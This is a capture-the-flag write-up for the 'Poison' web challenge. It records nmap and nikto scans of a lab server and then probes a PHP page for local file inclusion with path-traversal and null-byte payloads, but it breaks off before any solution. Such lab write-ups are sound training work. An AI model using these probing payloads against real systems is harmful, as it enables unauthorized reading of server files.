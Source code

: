 # Poison

## Web: 350 Points

## Challenge

Someone is trying to leak all of LHC's user passwords, stop them before its too late!

[ [Start](http://challenges.laptophackingcoffee.org:666/) ]

Note: The server resets to default every 30 minutes. All progress will be lost

## Solution

```
Here I'm going to post the passwords for all of the LHC users. NOTE: I'm using this server as backup storage while reinstalling everything on my home machine. DO NOT DELETE FILES!
```

https://cyware.com/news/understanding-the-types-of-poisoning-attacks-ed39c024

```
$ nmap -sC -sV challenges.laptophackingcoffee.org -p 666
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-04 09:04 MDT
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.35 seconds
stark@kali:~/Desktop$ nmap -sC -sV challenges.laptophackingcoffee.org -p 666 -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-04 09:05 MDT
Nmap scan report for challenges.laptophackingcoffee.org (35.237.149.50)
Host is up (0.080s latency).
rDNS record for 35.237.149.50: 50.149.237.35.bc.googleusercontent.com

PORT    STATE SERVICE VERSION
666/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.67 seconds
```

LHC channels suggested Nikto, which is readily available in Kali.

https://en.wikipedia.org/wiki/Nikto_(vulnerability_scanner)

```
$ nikto -host challenges.laptophackingcoffee.org -p 666
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          35.237.149.50
+ Target Hostname:    challenges.laptophackingcoffee.org
+ Target Port:        666
+ Start Time:         2020-07-05 20:10:32 (GMT-6)
---------------------------------------------------------------------------
+ Server: Apache/2.4.25 (Debian)
+ Retrieved x-powered-by header: PHP/7.2.11-2+0~20181015120801.9+stretch~1.gbp8105e0
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.25 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /test.php: PHP include error may indicate local or remote file inclusion is possible.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3092: /test.php: This might be interesting...
+ 7865 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2020-07-05 20:19:42 (GMT-6) (550 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

No results from Gobuster 2.3-small.txt and 2.3-medium.txt

Visiting /index.php brings up the same page:

http://challenges.laptophackingcoffee.org:666/index.php
https://pentesterlab.com/exercises/php_include_and_post_exploitation/course

Per nikto's suggestion, visit /test.php:

http://challenges.laptophackingcoffee.org:666/test.php
```
Notice: Undefined index: key in /var/www/html/test.php on line 2

Notice: Undefined index: page in /var/www/html/test.php on line 3

Warning: include(.php): failed to open stream: No such file or directory in /var/www/html/test.php on line 6

Warning: include(): Failed opening '.php' for inclusion (include_path='.:/usr/share/php') in /var/www/html/test.php on line 6
```

Look a little closer at the errors:
```
Notice: Undefined index: key in /var/www/html/test.php on line 2
```

What if a key variable is sent?
```
http://challenges.laptophackingcoffee.org:666/test.php?key=1
```

Website results:
```
Notice: Undefined index: page in /var/www/html/test.php on line 3

Warning: include(.php): failed to open stream: No such file or directory in /var/www/html/test.php on line 6

Warning: include(): Failed opening '.php' for inclusion (include_path='.:/usr/share/php') in /var/www/html/test.php on line 6
```

Now send a `page` variable:

http://challenges.laptophackingcoffee.org:666/test.php?key=1&page=2

web results:
```
Warning: include(2.php): failed to open stream: No such file or directory in /var/www/html/test.php on line 6

Warning: include(): Failed opening '2.php' for inclusion (include_path='.:/usr/share/php') in /var/www/html/test.php on line 6
```

Try using page = "index"
http://challenges.laptophackingcoffee.org:666/test.php?key=0&page=index

results:
```
Here I'm going to post the passwords for all of the LHC users. NOTE: I'm using this server as backup storage while reinstalling everything on my home machine. DO NOT DELETE FILES!
```

The page loads index.php.

Try sending its own index.php page:

http://challenges.laptophackingcoffee.org:666/test.php?key=0&page=http://challenges.laptophackingcoffee.org:666/index

```
Warning: include(): http:// wrapper is disabled in the server configuration by allow_url_include=0 in /var/www/html/test.php on line 6

Warning: include(http://challenges.laptophackingcoffee.org:666/index.php): failed to open stream: no suitable wrapper could be found in /var/www/html/test.php on line 6

Warning: include(): Failed opening 'http://challenges.laptophackingcoffee.org:666/index.php' for inclusion (include_path='.:/usr/share/php') in /var/www/html/test.php on line 6
```
http wrapper disabled.

http://challenges.laptophackingcoffee.org:666/test.php?key=0&page=../html/index

http://challenges.laptophackingcoffee.org:666/test.php?key=0&page=../../www/html/index

http://challenges.laptophackingcoffee.org:666/test.php?key=0&page=../../../var/www/html/index

```
Here I'm going to post the passwords for all of the LHC users. NOTE: I'm using this server as backup storage while reinstalling everything on my home machine. DO NOT DELETE FILES!
```

Add a null-byte at end of param

http://challenges.laptophackingcoffee.org:666/test.php?key=1&page=./index.php%00?

different error:
```
Warning: include(): Failed opening './index.php' for inclusion (include_path='.:/usr/share/php') in /var/www/html/test.php on line 6
```

* http://users.atw.hu/webexploit/0006.html
* https://security.stackexchange.com/questions/181704/exploit-lfi-bug-when-a-inc-php-is-appended-to-the-file-name
* https://hakin9.org/web-application-penetration-testing-local-file-inclusion-lfi-testing/
* https://highon.coffee/blog/lfi-cheat-sheet/